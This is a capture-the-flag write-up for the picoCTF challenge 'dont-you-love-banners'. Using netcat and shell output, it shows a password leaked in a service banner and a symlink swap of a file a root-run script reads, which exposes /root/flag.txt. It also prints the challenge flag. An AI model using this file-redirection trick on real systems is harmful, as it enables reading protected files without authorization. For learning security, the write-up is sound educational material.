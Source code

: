 # dont-you-love-banners (300 points)
Can you abuse the banner?

The server has been leaking some crucial information on `tethys.picoctf.net 63715`. Use the leaked information to get to the server.

To connect to the running application use `nc tethys.picoctf.net 49894`. From the above information abuse the machine and find the flag in the /root directory.

## Solution
We got the information, that the server is leaking some information on port 63715 and that the topic is any kind of banners. So let's try banner grabbing on that port:
```
$ nc -v tethys.picoctf.net 63715
tethys.picoctf.net [3.140.72.182] 63715 open
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

Protocol mismatch.
$ nc -v tethys.picoctf.net 49894
```
Exactly, we got a password here. Let's head over to application:
```
$ nc -v tethys.picoctf.net 49894
tethys.picoctf.net [3.140.72.182] 49894 open
*************************************
**************WELCOME****************
*************************************

what is the password?

```
We are asked for a password. If we enter our finding we get another question:
```
what is the password?
My_Passw@rd_@1234

What is the top cyber security conference in the world?

```
This should be simple. The _DEC CON_ is probably the best known conference under cyber security specialists:
```
What is the top cyber security conference in the world?
DEF CON

the first hacker ever was known for phreaking(making free phone calls), who was it?

```

And we got the next question. First I thought that could be Kevin Mitnick, but he wasn't. So I just searched for it and found the following information in this [source](https://www.coloradosupport.com/when-did-the-first-hack-happen/):

_Nicknamed Captain Crunch, and often referred to as the first-ever hacker. That individual, mentioned in Curtis Hyde’s ‘Interruption of the Day’ video, goes down in history as an official phone phreak and whistle-blower.

_[...]_

_John Draper, a computer programmer, and former phone phreak, are historically known in the computer programming world and the hacker and security communities as Captain Crunch, Crunch, or Crunchman._

So I tried _John Draper_:
```
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

player@challenge:~$
```

Correct! We got a shell.

Let's investigate this a bit. In our home directory is the banner that we already saw by the initial connection:
```
player@challenge:~$ ls -al
ls -al
total 20
drwxr-xr-x 1 player player   20 Mar  9 16:39 .
drwxr-xr-x 1 root   root     20 Mar  9 16:39 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7 17:25 banner
-rw-r--r-- 1 root   root     13 Feb  7 17:25 text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ 
```
The other files are also not interesting. We know that the flag is in the root directory, so let's try if we can access this:
```
player@challenge:~$ ls -al /root
ls -al /root
total 16
drwxr-xr-x 1 root root    6 Mar 12 00:18 .
drwxr-xr-x 1 root root   41 Mar 15 21:39 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12 00:18 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
player@challenge:~$ 
```
We can!

The flag isn't readable, but there is a python script:
```
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

player@challenge:~$
```

This script is the application, that creates the questions. In the first few lines the file `/home/player/banner` is read to display the banner. 

Probably is the script called with root permissions. So if we replace the real banner with another file we could access it without direct permissions. To do so we can create a symlink pointing to the `flag.txt`:
```
player@challenge:~$ mv banner banner_bak
mv banner banner_bak
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls -al
ls -al
total 20
drwxr-xr-x 1 player player   38 Mar 15 21:57 .
drwxr-xr-x 1 root   root     20 Mar  9 16:39 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
lrwxrwxrwx 1 player player   14 Mar 15 21:57 banner -> /root/flag.txt
-rw-r--r-- 1 player player  114 Feb  7 17:25 banner_bak
-rw-r--r-- 1 root   root     13 Feb  7 17:25 text
player@challenge:~$ cat banner
cat banner
cat: banner: Permission denied
player@challenge:~$
```

We still can't access the flag, but if we connect again with the application the script will try to open the symlink with root permissions and print it out:
```
$ nc tethys.picoctf.net 63931
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}

what is the password?

```

Perfect, we got our flag.
